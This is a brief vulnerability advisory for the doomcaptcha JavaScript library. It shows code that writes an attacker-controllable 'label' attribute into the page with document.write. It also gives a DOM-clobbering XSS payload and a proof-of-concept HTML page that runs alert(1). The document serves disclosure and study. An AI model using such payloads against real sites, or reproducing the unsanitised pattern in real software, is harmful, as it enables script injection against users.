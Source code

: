 ## doomcaptcha

### Meta

+ Library: doomcaptcha
+ Stars: 1K
+ Version: latest
+ Payload: ```<img name="currentScript" label="<script>alert(1)</script>"></img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Mitre
+ Foundby: TheHulk

### Library

https://github.com/vivirenremoto/doomcaptcha/blob/main/script.js

### Vulnerable Code Snippet

```javascript
var captcha_label = document.currentScript.getAttribute('label');

var captcha_html = '';
if (captcha_label) {
    captcha_html = '<p>' + captcha_label + '<br>';
}

document.write(captcha_html);
```

## PoC

``` html
<!--Library-->
<form>
<script src=script.js></script>
</form>
<!--Library-->

<!--Payload-->
<img name=currentScript label="<script>alert(1)</script>"></img>
<!--Payload-->
```
